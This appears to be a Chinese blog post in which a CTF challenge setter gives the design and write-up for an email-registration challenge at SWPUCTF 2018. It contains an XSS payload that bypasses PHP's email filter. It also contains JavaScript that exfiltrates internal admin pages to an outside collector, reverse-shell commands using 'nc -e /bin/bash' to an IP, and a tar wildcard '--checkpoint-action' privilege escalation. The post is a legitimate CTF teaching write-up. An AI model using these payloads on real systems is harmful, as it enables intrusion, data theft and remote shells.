 ```yaml
---
layout:     post
title:      第九届SWPUCTF-有趣的邮箱注册出题思路
subtitle:   
date:       2018-12-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - ctf
	-权限提升
---
```




 最后一届在学校举办的校赛，时间真快啊，马上毕业了，感谢@小东哥，@谢队等学弟的帮忙，这次线上线下的比赛也算圆满举行了。

## 0x01 出题思路
   之前看到有人发了个 FILTER_VALIDATE_EMAIL 的绕过，就想着出个XSS。用phantomJS去访问读取内网的资源，让他们通过XHR来读源码，后面的tar提权是@小东哥提供的思路。

## 0x02 WriteUp

check.php右键发现源码有php

```php
<!--check.php
if($_POST['email']) {
$email = $_POST['email'];
if(!filter_var($email,FILTER_VALIDATE_EMAIL)){
echo "error email, please check your email";
}else{
echo "等待管理员自动审核";
echo $email;
}
}
?>
```
于是提交payload

```javascript
"aaa><script/src=http://sp4rk.cn:6324/duyuanma.js</script>"@a.aaa
```

```javascript
var a = new XMLHttpRequest();
a.open('GET', 'http://localhost:6324/admin/admin.php', false);
a.send(null);
b = a.responseText;
location.href = 'http://t15em7.ceye.io/d' + escape(b);
```
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc21os8yj31uk0bedhs.jpg)

可以看到admin/a0a.php下面有个命令执行，于是弹shell

```javascript
var a = new XMLHttpRequest();
a.open('GET', 'http://localhost:6324/admin/a0a.php?cmd=nc+-e+%2fbin%2fbash+118.89.56.208+6325', false);
a.send(null);
b = a.responseText;
location.href = 'http://t15em7.ceye.io/' + escape(b);
```
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc24rhq9j327g0m4wgi.jpg)
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2dtq22j310i0dyacd.jpg)
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ixq18j30r40eawfp.jpg)

上层的根目录有个4f0a5ead5aef34138fcbf8cf00029e7b，访问下

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ked1oj326w0mcjsp.jpg)

这里有个上传和备份文件

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2nngf2j30su0kaad7.jpg)

发现经过tar *处理，于是上传文件

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2rh67aj31hc0pmdn3.jpg)

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ww1olj31hw0h478z.jpg)

–checkpoint=1

–checkpoint-action=exec=sh exp.sh

exp.sh

```shell
nc -e /bin/bash 118.89.56.208 6325
```

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc308rhxj30zm0a040x.jpg)